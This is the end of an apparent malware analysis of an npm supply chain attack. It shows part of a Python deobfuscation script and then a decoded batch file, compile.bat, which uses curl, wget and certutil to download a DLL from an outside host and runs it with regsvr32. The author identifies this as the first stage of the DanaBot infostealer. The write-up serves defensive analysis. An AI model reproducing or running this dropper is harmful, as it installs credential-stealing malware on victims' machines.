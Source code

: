 ```python
    for match in matches:
        command = command.replace(match, decode(match))
    
    if first_command:
        print('@' + command)
        first_command = False
    else:
        print(command)
```

**compile.bat (plaintext)**

```bat
@echo off
curl https://pastorcryptograph.at/3/sdd.dll -o compile.dll
if not exist compile.dll (
	wget https://pastorcryptograph.at/3/sdd.dll -O compile.dll
)
if not exist compile.dll (
	certutil.exe -urlcache -f https://pastorcryptograph.at/3/sdd.dll compile.dll
)
regsvr32.exe -s compile.dll
```

## Conclusion
This is an example of a supply chain attack where NPM was impacted and is a trusted source for developer builds around the world.  

Any builds that were setup to pull the latest version of the package may have picked it up between the time the package was pushed until taken down.

What I've shown above is the initial phase of the attacker infecting a Windows machine to pull down the secondary payload and execute it on the machine.  In this case, it is the DanaBot InfoStealer.